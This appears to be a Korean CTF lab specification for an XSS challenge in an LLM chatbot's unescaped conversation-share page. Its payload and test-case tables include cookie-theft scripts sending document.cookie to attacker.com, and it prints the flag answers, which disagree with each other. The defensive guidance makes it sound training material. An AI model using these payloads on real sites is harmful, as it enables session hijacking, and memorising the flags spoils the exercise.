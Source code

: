 # 🧩 CTF 시나리오 05: 부적절한 출력 처리 (Improper Output Handling / XSS)

<br>

## 📌 시나리오 ID

`SCENARIO_05`

## 🧠 시나리오 개요

이 시나리오는 Cross-Site Scripting(XSS) 취약점이 존재하는 웹 챗봇 시스템인 ChatLLL을 대상으로 한다. 공격자는 사용자의 입력이 출력 시 적절히 이스케이프되지 않는다는 점을 악용하여, 공유 HTML 파일에 악성 JavaScript를 삽입하고, 이를 통해 관리자 세션 쿠키(`admin_session`)를 탈취하는 것이 목표이다.

<br>

## 🎯 시나리오 목표

* 사용자 입력을 통한 악성 스크립트 삽입
* 공유 HTML 기능을 통해 관리자 봇에게 해당 HTML 열람 유도
* XSS 실행 시 `admin_session=ctf05_flag{XSS_1n_5h4r3d_C0nv3r54710n5!}` 쿠키를 탈취하여 외부로 전송

<br>

## 🛠️ UI 구성 요소

| 구성 요소 | 설명 |
|-----|-----|
| 👀 헤더 및 문제 설명 | 시나리오 제목, 설명 문구 표현 |
| 📥 프롬프트 입력창 | 사용자가 질문을 입력 |
| 🧪 LLM 응답 출력창 | 시스템 프롬프트에 따라 응답이 다르게 출력 |
| 💬 대화 내용 공유 창 | 대화 내용 공유 |
| 🎯 힌트 보기 버튼 | 버튼 클릭 시 힌트 메시지 표시 (공격 방향 가이드 제공) |
| 🏁 FLAG 제출창 | 획득한 flag를 입력하여 정답 여부 확인 |

<br>

## 💥 공격 흐름 예시
### 1. 🔥 공격 기법

| 기법 | 설명 |
|-----------|------|
| `<script>` 삽입 | `<script>alert(1)</script>` 형태로 기본적인 XSS 실행                               |
| 쿠키 탈취         | `<script>location.href='http://attacker.com?c='+document.cookie</script>` |
| 이미지 오류 이벤트    | `<img src=x onerror=alert('XSS')>`                                        |
| HTML 엔티티 우회   | `&lt;script&gt;alert(1)&lt;/script&gt;`                                   |
| DOM 조작        | `<script>document.body.innerHTML='hacked'</script>`                       |

### 2. 🕸️ 동작 흐름

| 단계 | 설명 |
|-----------|------|
| 1  | 사용자가 메시지를 입력하면 `conversation_history`에 저장됨                                            |
| 2  | `ctf05_LLM_ask()` 함수가 GPT-3.5-turbo를 호출해 응답 생성                                        |
| 3  | `ctf05_generate_share_html()` 함수가 대화 내역을 HTML 파일로 변환함. 이때 사용자 입력이 escape되지 않고 그대로 삽입됨 |
| 4  | `ctf05_admin_bot_visit()` 함수가 관리자의 HTML 열람을 헤드리스 브라우저로 시뮬레이션함                         |
| 5  | 악의적 JavaScript가 실행되어 `document.cookie`를 통해 쿠키가 탈취됨 |

### 3. 🛡️ 위협 요소 및 대응 방안

| 위협 | 설명 | 대응 |
|-----------|------|------|
| 세션 쿠키 탈취         | 관리자 인증 우회 가능     | `HttpOnly`, `Secure` 속성 사용      |
| 관리자 권한 탈취        | 민감 정보 접근, 시스템 조작 | 사용자 입력 검증 및 출력 인코딩              |
| JavaScript 임의 실행 | 악성 행위 유도         | CSP(Content Security Policy) 적용 |

### 4. ✅ 보안 권장 사항

* 사용자 입력은 반드시 출력 전 `html.escape()` 처리 또는 Jinja2 autoescape 기능 사용
* CSP 적용을 통해 인라인 및 외부 스크립트 제한
* 모든 사용자 입력에 대한 서버 측 필터링 적용
* `HttpOnly`, `Secure` 쿠키 설정으로 브라우저 접근 차단

<br>

## ✅ 테스트 케이스 예시

| 입력 | 기대 응답 |
|:-----:|:-----|
| `안녕하세요`                                                          | 정상 HTML 생성, XSS 없음  |
| `<script>alert(1)</script>`                                      | 관리자 브라우저에서 alert 실행 |
| `<img src=x onerror=alert('XSS')>`                               | 관리자 브라우저에서 alert 실행 |
| `<script>fetch('http://attacker.com?'+document.cookie)</script>` | 쿠키 탈취 가능            |

<br>

## 🧪 Flag 제출 방식

사용자는 획득한 Flag를 다음과 같이 제출합니다:

```bash
flag{llm_xss_success}
```

* 정답 시: `✅ 정답입니다!`
* 오답 시: `❌ 틀렸습니다.`

<br>

## 🔐 모델 요구 조건

* 관리자 브라우저에서 악성 스크립트가 실행되어야 함

* `admin_session` 쿠키를 외부 서버로 전송해야 함

* 플래그: `ctf05_flag{XSS_1n_5h4r3d_C0nv3r54710n5!}`